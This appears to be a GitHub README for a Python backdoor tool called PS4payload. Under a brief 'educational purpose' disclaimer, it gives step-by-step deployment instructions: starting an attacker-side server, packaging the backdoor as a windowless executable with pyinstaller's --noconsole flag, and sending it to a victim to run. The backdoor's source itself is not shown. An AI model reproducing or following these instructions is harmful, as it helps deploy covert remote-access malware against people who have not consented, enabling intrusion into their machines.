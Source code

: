 
# PS4payload
This is a wonderful powerful backdoor Made by PS4 SPIDEY THAT IS ME I AM A ETHICAL HACKER So carefully
# THIS IS FOR EDUCATIONL PURPOSE I DON'T PROMOTE ANY OTHER ILLEGAL CONTENT

# HOW TO RUN THIS FILE IN ATTACKER PC

git clone https://github.com/PS4SPIDEY/PS4payload.git
<br>
cd PS4payload
python server.py


# HOW TO CONVERT PYTHON BACKDOOR FILE IN TO EXE
First Try:
pip install auto-py-to-exe
auto-py-to-exe

Second Try:
pip install pyinstall
pyinstall backdoor.py --onefile --noconsole

# HOW TO RUN THIS FILE TO  VICTIM PC
sent the python file or exe file to victim then run this file if you want to run python

python backdoor.py

or if you want to run exe just click it it will automatically closed So bye GUYS

